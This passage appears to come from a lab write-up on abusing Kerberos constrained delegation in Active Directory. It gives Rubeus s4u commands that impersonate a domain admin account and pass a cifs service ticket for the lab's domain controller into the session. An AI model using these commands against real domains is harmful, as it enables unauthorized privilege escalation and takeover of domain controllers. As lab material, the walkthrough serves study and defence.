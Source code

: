 Sorry for the cutoff but we can get the TGS using this command referenced in the guide or below:
```powershell
.\Rubeus.exe s4u /user:svc_condeleg /rc4:<hash> /impersonateuser:mknight
```
* The mknight account is a domain admin for my lab. Can you tell I like marvel yet? But don't worry, its still DC > .


Next we can use the TGS to access one of the SPNs current set for our account to be delegated to on the domain controller.
```powershell
.\Rubeus.exe s4u /ticket:<tgt data> /tgs:<tgs data> /msdsspn:cifs/marvel-dc.marvel.local /ptt
```

After this, we can see the TGS we need to access the cifs service on the domain controller was loaded into our PS session!
![tgs_DA_cifs_rubeus](/images/Active_Directroy/Delegation/tgs_rubeus_cifs_success.PNG)

Now lets see if we can access the domain controller.